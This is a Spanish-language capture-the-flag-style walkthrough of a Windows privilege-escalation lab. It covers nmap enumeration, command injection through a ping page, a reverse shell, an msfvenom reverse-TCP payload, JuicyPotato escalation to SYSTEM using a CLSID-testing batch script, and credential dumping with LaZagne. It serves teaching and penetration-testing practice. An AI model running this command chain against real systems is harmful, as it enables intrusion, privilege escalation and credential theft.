Laboratorio de Escalada de Privilegios locales en Windows - Parte 1

Enunciado
Durante una prueba de penetración contra la organización INLANEFREIGHT, se encuentra un servidor Windows no unido a un dominio que presenta una vulnerabilidad de inyección de comandos sin parchear. Tras obtener acceso inicial, se hallan credenciales que podrían ser útiles para el movimiento lateral durante la evaluación y se descubre otra vulnerabilidad que puede aprovecharse para escalar privilegios en el servidor objetivo.
Para esta evaluación, suponga que su cliente tiene un programa de gestión de parches/vulnerabilidades relativamente maduro, pero cuenta con poco personal y desconoce muchas de las mejores prácticas en torno a la gestión de la configuración, lo que podría dejar un host vulnerable a la escalada de privilegios.
Enumere el host (comenzando con un escaneo de puertos Nmap para identificar puertos/servicios accesibles), aproveche la vulnerabilidad de inyección de comandos para obtener acceso a la shell inversa, escale privilegios a NT AUTHORITY\SYSTEMnivel o acceso similar y responda las preguntas a continuación para completar esta parte de la evaluación.
Empezamos con el reconocimiento inicial de la máquina haciendo escaneos para ver que puertos y servicios están corriendo
nmap -p- -sS --min-rate 1000 -n -Pn <IP>

Donde vemos que tenemos los puertos 80 y 3389 abiertos, hacemos otro escaneo mas detallado:
nmap -p80,3389 -sCV -n -Pn <IP>

Con esta información pasamos a revisar por el puerto 80 que está corriendo exactamente vemos que tenemos un Windows-Server
Y nos encontramos con una interfaz donde podemos hacer ping desde el servidor, que sucede que al hacer ping estás ejecutando un comando desde el servidor, con lo que podemos concatenar el ping con otro comando que nos interese y así tener ejecución remota de comandos en el servidor.

¿Cuáles dos KB están instaladas en el sistema de destino? (Formato de respuesta: 3210000&3210060) Nos están preguntando ¿qué dos actualizaciones de Windows están instaladas en el sistema? Donde podemos ver las actualizaciones del sistema con el siguiente comando:
wmic qfe get HotFixID
Entonces lo concatenamos con el ping anterior. 
Busque la contraseña de la cuenta ldapadmin en algún lugar del sistema.
Sabiendo que tenemos ejecución remota de comandos nos vamos a lanzar una reverse shell a nuestra máquina para trabajar más cómodos.
Recomiendo la Powershell #2

Nos ponemos en escucha en este caso vamos a usar la herramienta Penelope en lugar de netcat
Si deseamos nos la descargamos, la copiamos a una de las rutas del PATH y ejecutamos:
penelope.py
Poniéndonos en escucha por el puerto 4444

Lanzamos la reverse-shell desde la página del servidor y debemos recibir la conexión.
Una vez dentro vemos que tenemos los privilegios de SeImpersonatePrivilege:
whoami /priv

Con estos permisos podemos intentar escalar privilegios con la herramienta JuicyPotato
Para esto vamos a necesitar un payload y el CLSID de la máquina víctima.
Nos creamos el payload en nuestra máquina atacante:
msfvenom -p windows/shell_reverse_tcp LHOST=<Nuestra_IP> LPORT=8443 -f exe > shell.exe
Para obtener el CLSID vamos a utilizar el GetCLSID.ps1 y un archivo test.bat que se va a encargar de probar varios CLSID y darnos el correcto.
Nos descargamos el GetCLSID.ps1 a nuestra máquina víctima
wget https://raw.githubusercontent.com/ohpe/juicy-potato/refs/heads/master/CLSID/GetCLSID.ps1
Nos descargamos el test.bat y editamos con las rutas donde vamos a tener nuestros archivos. Yo trabajé en C:\Users\Public que tenemos permisos de escritura, tú lo puedes modificar igual al directorio de trabajo donde vas a tener los archivos.
#Buscamos el CLSID correcto
cat system.bat
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\\Users\\Public\\CLSID.list) DO (
echo %%i !port!
C:\\Users\\Public\\JuicyPotato.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)
Ya con todo esto listo vamos a pasárselo a la máquina víctima. Montamos un servidor python en local:
python -m http.server
Y en la víctima nos movemos al directorio de trabajo y nos descargamos todo lo que necesitamos:
cd C:\Users\Public
wget http://<Nuestra_IP>:8000/GetCLSID.ps1 -OutFile ./GetCLSID.ps1
wget http://<Nuestra_IP>:8000/JuicyPotato.exe -OutFile ./JuicyPotato.exe
wget http://<Nuestra_IP>:8000/test.bat -OutFile ./test.bat
 Importamos y ejecutamos el módulo:
Import-Module GetCLSID.ps1
./GetCLSID.ps1

Vamos a necesitar el archivo CLSID.list, que esta dentro del directorio Windows_Server_2016_Standard para correr nuestro test.bat.
mv ./Windows_Server_2016_Standard/CLSID.list ./
Ejecutamos test.bat y nos debe devolver los CLSID que estamos buscando:
./test.bat
Nos lo va a imprimir en pantalla y además nos lo va a almacenar en el archivo result.log

Nos ponemos en escucha en nuestra máquina por el puerto 8443:
penelope -p 8443
Ya con eso podemos lanzar el JuicyPotato ejecutando nuestro payload y lanzándonos una reverse-shell como SYSTEM
PS C:\Users\Public> .\JuicyPotato.exe -l 1234 -p C:\Users\Public\shell.exe -t * -c '{c980e4c2-c178-4572-935d-a8a429884806}'

Ahora que somos SYSTEM vamos a ejecutar la herramienta Lazagne para recuperar todas las contraseñas accesibles en la máquina.
powershell
Nos la descargamos, montamos el servidor python y la pasamos a la máquina víctima.
python -m http.server
Nos movemos a C:\Users\Public y nos la descargamos, debemos tener algo de paciencia porque pesa un poco.
wget http://<Nuestra_IP>:8000/Lazagne.exe -OutFile ./Lazagne.exe
La ejecutamos desde SYSTEM
./Lazagne.exe
 Ahí tenemos nuestra flag. Eleve los privilegios y envíe el contenido del archivo flag.txt en el Escritorio del Administrador. Nos movemos al directorio y leemos la flag.
type C:\Users\Administrator\Desktop\flag.txt
 Tras elevar los privilegios, localice un archivo llamado confidential.txt. Envíe el contenido de este archivo. Buscamos dentro de la carpeta del usuario Administrator y nos fijamo en los siguientes directorios que vemos una hora distinta.
cd C:\Users\Administrator
 Indagamos y lo tenemos.
cd Music
type confidential.txt

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías